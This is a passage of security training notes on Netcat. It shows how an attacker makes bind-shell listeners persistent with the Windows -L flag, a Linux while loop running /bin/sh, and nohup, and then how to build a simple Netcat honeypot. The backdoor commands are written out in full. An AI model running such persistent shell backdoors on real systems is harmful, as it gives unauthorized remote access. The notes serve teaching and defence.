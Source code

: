 ```
## Persistent Netcat Listeners and Netcat HoneyPots
It's import to note that all of the Netcat listeners we've discussed so far, including the file transfer, backdoor command shell, and relay setups are non-persistant listeners. That is once an attacker connects to the listener and drops the connection, the Netcat listener goes away, closing the port. 
- To address this, Netcat has the ```-L``` flag that tells it to "listen harder"

On Windows, an attacker can invoke a command-shell listener that will continue listening after a client drops the connection using this syntax:
```
C:\> nc -L -p [port] -e cmd.exe
```
![3a30e2b84fdb7d0d3a55327e524bd55f.png](../_resources/3a30e2b84fdb7d0d3a55327e524bd55f.png)

The attacker can then connect to this shell using a Netcat client as before. However, when the attacker drops the connection from the client, typically by pressing CTRL+C, the listener starts listening again, making it a persistant listener. 
- The attacker can reconnect at any time, therefore making a backdoor.

An attacker can make a Netcat listener persistent on Unix and Linux by using a while loop, invoking the following command:
```
$ while [1]; do echo "Started": nc -l -p [port] -e /bin/sh; done
```
![fa951b22f1ccdb26f49ac0b7a1c9f032.png](../_resources/fa951b22f1ccdb26f49ac0b7a1c9f032.png)


When executed, this command will print out "Started", listen on a given TCP port, and then invoke a command shell (/bin/sh) when someone connects
- The only way the connection disappears is if the user who started it logs out

To eliminate the problem, and to make a totally persistent listener that will let the attacker log out, the bad guy could dump the while loop syntax we just described into a file, called ```listener.sh``` for example. Then change the permissions to readable and executable, so that it can run as a script using this command:
```
$ chmod 555 listener.sh
```

Then, the attacker can invoke this loop in the background by using the ```nohup``` command, as follows:
```
$ nohup ./listener.sh &
```

On UNIX, and Linux, the ```nohup``` command makes a process keep running even if the user who invoked it logs out. 

Using what we know, the good guys can use Netcat to create a little honeypot, a tool used to capture information from the bad guys. Consider this while loop, which can be dumped into a file called ```honeypot.sh```

```
$ while [1]; do echo "Started"; nc -l -p [port] >> capture.txt; done
```

This loop invokes a Netcat listener on the given port number. When someone connects and sends data, the listener will append all received data in a file called ```capture.txt```. Then, when the connection is dropped, the listener will start again. 
- This is called a honeypot, and it is used to capture the bad guys' actions for analysis by investigators. 

To kill this command the investigator would need to use the kill command to send the -9 signal (forcing it to shut down) to the process running Netcat, as in:
```